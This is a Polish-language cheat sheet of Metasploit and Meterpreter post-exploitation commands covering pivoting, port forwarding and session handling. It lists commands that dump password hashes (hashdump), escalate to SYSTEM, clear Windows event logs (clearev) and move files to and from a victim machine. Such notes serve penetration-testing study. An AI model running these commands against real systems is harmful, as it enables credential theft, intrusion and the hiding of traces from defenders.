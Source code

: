 po pivotingu należy przeskanować nową sieć
https://www.giac.org/paper/gpen/3579/post-exploitation-metasploit-pivot-port/121704
`arp_scanner`

# Port Forwarding

```bash
portfwd list
portfwd flush
meterpreter > portfwd add –l 3389 –p 3389 –r  [target host]
portfwd add # add the port forwarding to the list<br>tunnel will also exist outside the Metasploit console
        -l 3389 # local port that will be listening and forwarded to our target
        -p 3389 # destination port on our targeting host
        -r [target host] # targeted system’s IP or hostname
portfwd add –l 3389 –p 3389 –r  [target host]
portfwd delete –l 3389
```

# Sessions

```bash
multi/manage/shell_to_meterpreter # mając sesję zwykła można przekształcić ją na meterpreter.
sessions -l # lista dostępnych sesji
sessions -i nr_sesji # interakcja z sesją/kożystaj z sesji
sessions -c cmd # wykonaj polecenie cmd we wszystkich dostępnych sesjach
sessions -i 10-20 -c "id" # wykonaj komendę w wybranych sesjach
sessions -k 1 # ubij sesję
background / Ctrl+z # wysłanie sesji w tło, wychodzi z sesji ale jej nie kończy, wraca do msfconsole
```

# Meterpreter

```bash
sessions -u nr_sesji # upgrade sesji do meterpreter
sysinfo # system info
getuid # display the user that the Meterpreter server is running as on the host
background / Ctrl+z # Backgrounds the current session
upload src dst ` # upload pliku do ofiary, używany w sesji, src- pełna ścieżka do pliku na maszynie atakującego, dst- ścieżka do pliku tworzonego u ofiary
shell # przełącza do shell, exit/CRTL+C aby wyjść z shella do meterpretera
download c:\\boot.ini # pobierz plik z ofiary do siebie
pgrep explorer # szukaj PID procesu o nazwie explorer
migrate 2444 # migracja do procesu
getsystem # Elevate to the high privileg
hashdump # dump hashy haseł
clearev # clear the Application, System, and Security logs on a Windows system
edit edit.txt # Vi editor
execute -f cmd.exe -i -H #
ipconfig # displays the network interfaces and addresses on the remote machine
getprivs #
exit # TERMINATE the meterpreter session
search -f Unattend.xml # szukaj pliku Unattend.xml
```
